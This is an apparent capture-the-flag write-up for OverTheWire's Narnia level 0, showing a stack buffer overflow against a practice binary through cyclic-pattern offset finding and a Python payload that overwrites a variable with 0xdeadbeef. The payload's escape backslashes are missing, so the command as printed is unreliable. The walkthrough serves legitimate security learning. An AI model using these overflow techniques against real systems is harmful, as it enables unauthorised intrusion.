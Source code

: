 Note how this file is not stripped which means it will contain debug information regarding symbols and functions. This will give us a little bit more information as to what is going on with the binary when we try to reverse engineer it.

Running the program, we can see that it is asking for a certain value in the function to be changed.

{% highlight bash %}
narnia0@narnia:/narnia$ ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: test  
buf: test  
val: 0x41414141  
WAY OFF!!!!
{% endhighlight %}

Attempting to write the four letter word “test” to the buffer proves to be an inadequate length for overflowing the buffer as the value did not change.

### Buffer Overflow

We can verify that this value can be modified by attempting to flood the buffer with a long string of characters:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/other/overthewire/narnia]  
└──╼ $pwn cyclic 100  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

narnia0@narnia:/narnia$ ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa  
buf: aaaabaaacaaadaaaeaaafaaa  
val: 0x61616166  
WAY OFF!!!!
{% endhighlight %}

Observe that the value has changed from 0x41414141 to 0x61616166 confirming that there is a buffer overflow vulnerability. To calculate the offset, the -l flag can be utilized in the pwn command:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/other/overthewire/narnia]  
└──╼ $pwn cyclic -l 0x61616166  
20
{% endhighlight %}

Seeing as the offset is 20 bytes, it is possible to input up to 20 bytes into the buffer before the value gets changed. Thus the payload will incorporate a string of 20 bytes followed by 0xdeadbeef in little endian which is xefxbexadxde. Conducting this attack reveals the following:

{% highlight bash %}
narnia0@narnia:/narnia$ python -c "print 'A'*20+'xefxbexadxde'"|./narnia0 Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ  
val: 0xdeadbeef

The attack has been successfully performed as can be seen from the overwritten value and lack of the WAY OFF!!!! message. However, no shell was given. Analysing this program in radare2 reveals that we should be getting a /bin/sh shell:
{% endhighlight %}
